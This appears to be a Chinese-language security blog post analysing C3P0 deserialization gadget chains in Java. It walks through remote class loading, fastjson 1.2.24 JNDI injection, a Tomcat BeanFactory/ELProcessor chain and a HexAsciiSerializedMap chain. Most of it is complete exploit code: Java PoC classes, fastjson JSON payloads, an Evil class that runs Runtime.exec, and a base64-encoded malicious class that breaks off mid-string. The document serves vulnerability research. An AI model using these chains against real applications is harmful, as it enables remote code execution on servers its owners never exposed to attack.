## C3P0介绍

### 关于JDBC连接

https://javasec.org/javase/JDBC/Connection.html

关注几个问题：

1. 怎么连接的？
2. 为什么需要Class.forName?

### 什么是C3P0

https://www.jianshu.com/p/7858bdef4de5

## C3P0的反序列化利用

对于反序列化漏洞，我们需要先关注就是`writeObject`和`readObject`方法

在`PoolBackedDataSourceBase`类中

先看`writeObject`方法：





跟进`indirector.indirectForm`方法：

获取通过传进来的`var1`获取一个`Reference`实例



创建自身的`private`类的实例化对象：



同时这个类中有一个`getObject`方法：

这个位置可以进行一个JNDI注入，我们现在不考虑



跟进`ReferenceableUtils.referenceToObject`方法



如果`var11==null`，我们就可以通过`URLClassLoader`进行远程类的加载，从而实现一个恶意远程类的加载达到RCE.

重点就是，怎么触发这个`getObject`方法：

我们回头看`PoolBackedDataSourceBase`的`readObject`方法：



在序列化中，写入就是一个`ReferenceSerialized`实例，继承了`IndirectlySerialized`

所以直接进入`ReferenceSerialized`类中的`getObject()`方法


需要注意的两点：

1. 根据上面的分析，我们需要控制的就是`connectionPoolDataSource`这个属性。而这个属性的值正是我们需要构造的恶意远程类。而在恶意远程类中因为缺乏`Serializable`实现，导致序列化过程失败，转而巧妙地通过`indirectForm`方法，来生成`ReferenceSerialized`类实例直接进行字节码写入。



2. `Referenceable`强制类型转换,所以远程恶意类需要继承`ConnectionPoolDataSource, Referenceable`类


payload就很容易的构造出来：

```java
package org.example;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;


public class Main {
    public static void setFieldValue(Object obj,String name,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field field=obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        String name="Evil";
        String url="http://127.0.0.1:1099/";
        PoolBackedDataSourceBase sourceBase = new PoolBackedDataSourceBase(false);
        ZZY zzy=new ZZY(name,url);
        setFieldValue(sourceBase,"connectionPoolDataSource",zzy);
        //序列化
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(sourceBase);
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
    private static class ZZY implements ConnectionPoolDataSource, Referenceable{
        private String className;
        private String url;

        public ZZY (String className, String url) {
            this.className = className;
            this.url = url;
        }
        @Override
        public Reference getReference() throws NamingException {
            return new Reference(this.className, this.className, this.url);
        }
        //重写一些类
        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

    }
}
```

Evil类：

```\
public class Evil {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}

```

`javac`编译后得到`Evil.class`



## Fastjson配合JNDI进行攻击

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```

在上面的反序列化利用中，也提到了一个JNDI注入，但是参数不太可控



但是在C3P0组件中，可以通过`setJndiName()`也可触发JNDI注入

### 流程分析

在`JndiRefForwardingDataSource`类中，可以调用父类`JndiRefDataSourceBase`的`setJndiName()`方法



又看这个几个setter和getter



继续看`inner`方法



继续dereference方法，可以触发JNDI，刚好需要的`jndiName`可以通过fastjson调用setter方法赋值，同时上面的setter方法也是fastjson可以触发的



### POC

```java
package org.example;

import com.alibaba.fastjson.JSON;

public class Poc1{
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",\"jndiName\":\"rmi://localhost:6666/hack\", \"loginWriter\":0}";
        try {
            JSON.parseObject(payload);
        } catch (Exception e) {
            System.out.println(e.getMessage());
        }
    }
}

```

## 不出网-利用BeanFactory实现JNDI(需要tomcat包)

在这个方法中，最后调用了`getObjectInstance`方法，这个也是JNDI中构造恶意工厂需要覆写的类，如果出网的话,可以利用`URLClassLoader`进行远程类加载，或者用JNDI远程加载恶意工厂。但是不出网的话，就只能记载本地的恶意工厂

```xml
 <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>8.5.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.tomcat.embed/tomcat-embed-el -->
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-el</artifactId>
            <version>8.5.3</version>
        </dependency>
```

直接触发`BeanFactory`类的`getObjectInstance`方法




```java
package org.example;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;


public class Poc {
    public static void setFieldValue(Object obj,String name,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field field=obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        PoolBackedDataSourceBase sourceBase = new PoolBackedDataSourceBase(false);
        ZZY zzy=new ZZY();
        setFieldValue(sourceBase,"connectionPoolDataSource",zzy);
        //序列化
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(sourceBase);
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
    private static class ZZY implements ConnectionPoolDataSource, Referenceable{
        public ZZY(){
        }
        @Override
        public Reference getReference() throws NamingException {
            ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            resourceRef.add(new StringRefAddr("forceString", "a=eval"));
            resourceRef.add(new StringRefAddr("a", "''.getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('calc')\")"));
            return resourceRef;
        }
        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

    }
}
```

## 利用Fastjson配合反序列化加载HEX编码，实现RCE

这个利用跟刚才那个区别就在，摆脱了JNDI注入的利用，对于很多情况来说，JNDI注入是不太好注入的，条件有点多

### 流程分析

`WrapperConnectionPoolDataSourceBase`的setUserOverridesAsString方法



进入fireVetoableChange方法





进入`vetoableChange`



调用`C3P0ImplUtils.parseUserOverridesAsString`



这个就是实现了将我们传入的`newValue`的字符串（含有hex编码）去除前面的`HexAsciiSerializedMap`,然后转换为字节数组，进入到`SerializableUtils.fromByteArray`



然后就是反序列化字节码，实现RCE

### POC

fastjson exp

```

{
    "a": {
        "@type": "java.lang.Class",
        "val": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"
    },
    "b": {
        "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
        "userOverridesAsString": "HexAsciiSerializedMap:hex编码内容;"
    }
}
```

总的payload

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Poc2 {
    public static void main(String[] args) throws Exception {
        byte[] bytes=getPayload();
        String hex=bytesToHexString(bytes,bytes.length);
        String payload = "{\"e\":{\"@type\":\"java.lang.Class\",\"val\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"},\"f\":{\"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\"userOverridesAsString\":\"HexAsciiSerializedMap:"+hex+"\n\"}}";
        try {
            JSON.parseObject(payload);
        } catch (Exception e) {
            System.out.println(e.getMessage());
        }
    }
    private static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
    private static void setFieldValue(Object obj,String name,Object value) throws Exception{
        Field field=obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    private static byte[] getPayload() throws Exception{
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUx